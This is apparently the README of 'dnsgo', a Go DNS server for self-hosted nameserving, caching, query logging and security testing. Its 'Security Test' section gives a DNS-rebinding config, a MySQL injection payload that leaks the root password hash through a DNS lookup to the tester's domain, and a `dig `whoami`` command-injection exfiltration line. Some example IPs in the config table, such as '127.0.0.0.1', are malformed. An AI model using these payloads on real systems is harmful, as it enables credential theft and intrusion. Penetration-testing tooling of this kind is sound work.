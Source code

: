 # dnsgo

## What's it?

It's a dns server.And you can use it when you need to use a own dns server.

## Where to use it?

- Use it as a website's nameserver (Only support "A" record now).
- Use it in intra network. Such as fast dns cache server. What's more, you can use it to defense dns DNS cache pollution.
- Use it when you need to get dns record. Not only monitor dns request, but also in web security test such as dns rebinding.

## How to use it?

### Install

```
go get github.com/grt1st/dnsgo
cd $GOPATH/src/github.com/grt1st/dnsgo
go build github.com/grt1st/dnsgo
./dnsgo -h
```

### Command 

```
$ [dnsgo]: ./dnsgo -h
Usage:
  ./dnsgo [Options]

Options
  -h	Show usage
  -host string
    	Address to bind (default "localhost")
  -log string
    	Filename of log file
  -query
    	Whether to send dns request
  -version
    	Show program's version number and exit
```

You can simply run it by: `sudo ./dnsgo`. You can define the address to bind, like `sudo ./dnsgo -host 0.0.0.0`. It will bind at `localhost` defaultly.

If you need it to lookup dns when meet undefined domain, set `query` please, such as `sudo ./dngo -query` .

Also you can define a log file, such as: `./dnsgo.go -log "./dnsgo.log"`

### Config File:

```
├── conf
|   |── default.conf
│   ├── hosts.conf        
│   ├── nameserver.conf
│   └── resolver.conf
```
- default.conf:

    Default config file. It defines where to find config file, don't need to change it.

- hosts.conf: 

     The file is like `/etc/hosts`, you can define a domain-ip relation in it. such as `github.com. 127.0.0.01`.
     What's more, you can define more ip by `&`: `github.com. 127.0.0.0.1&1.2.3.4`.
     And, you can use wildcard in it, such as `*.github.com. 192.168.1.1`
     
     Pattern:
     
     | Pattern | Meaning |
     | ------------- | ------------- |
     | `github.com. 127.0.0.0.1`| A record to `github.com`, value: `127.0.0.1`|
     |`github.com. 127.0.0.0.1&1.2.3.4` | A record to `github.com`, value: `127.0.0.1` & `1.2.3.4` |
     | `a.github.com. 127.0.0.0.1` | Define a subdomain `a.github.com` with A record |
     | `*.github.com. 127.0.0.0.1` | Define a subdomain of wildcard. Priority is lower than the specified subdomain. |
     | `github.com. 127.0.0.0.1\|1.2.3.4` | dns-rebinding. A record to `github.com`, Odd requests return first one(`127.0.0.1`), while even requests return the second(`1.2.3.4`). |
     
     
- nameserver.conf

    It's the file of nameserver. Config it by `nameserver 8.8.8.8`.
    
- resolver.conf

    A file like `/etc/resolv.conf`, don't know it much. But it's about dns forward. The format like `server=/*.abc.local/192.168.10.1`
    
### Example

#### Basic use

 `./dnsgo -host 0.0.0.0`, you can test it by `dig @127.0.0.1 xxxx.xx`

#### Use it on the public network 

To use it on the internet, first, you have to add a nameserver record for it. Config it at the domain name resolution page.

Config subdomain like this:
```
dnsgo NS ns.dnsgo.your-domain
ns.dnsgo A your-ip
```

Then you can config host at `conf/hosts.conf`, like:
```
test.dnsgo.your-domain. 8.8.8.8
```

To do dns rebinding, do this:
```
rebind.dnsgo.your-domain. 8.8.8.8|127.0.0.1
```

However, it depends on the dns server, for example some servers min-ttl is 60.

#### Get DNS Records

After you setup, you can get the dns records.

Normally, it will output at the command line:
```
- dnsgo [master] ⚡  sudo ./dnsgo
Password:
2018/07/10 23:56:22 [+] dns server start listening at localhost:53
2018/07/10 23:56:31 [INFO] hosts%!(EXTRA net.IP=127.0.0.1, string=github.com., []string=[127.0.0.1], int=1)
2018/07/11 00:01:10 [INFO] hosts%!(EXTRA net.IP=127.0.0.1, string=grt1st.cn., []string=[123.206.60.140 1.2.3.4], int=2)
```

Also, you can set log file by `./dnsgo -log dns.log` to log records in a file, then `cat` the file.

#### Security Test

- Dns Rebinding: eg: Set `rebind.your-domain 1.2.3.4|127.0.0.1` at `hosts.conf`, then `dig rebind.your-domain` to test.
- Dnslog in Sql Injection. eg: `SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.your-domain\\abc'));` in mysql (only support in windows for unc). More eg at [Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)
- Command Injection. eg: 
```
dig `whoami`.your-domain
```

## To-do 

1. Dynamic update hosts
2. More stability test
3. Code rebuild
4. Fix ns lookup read timeout bug

## Thanks

[miekg/dns](https://github.com/miekg/dns)

[kenshinx/godns](https://github.com/kenshinx/godns)

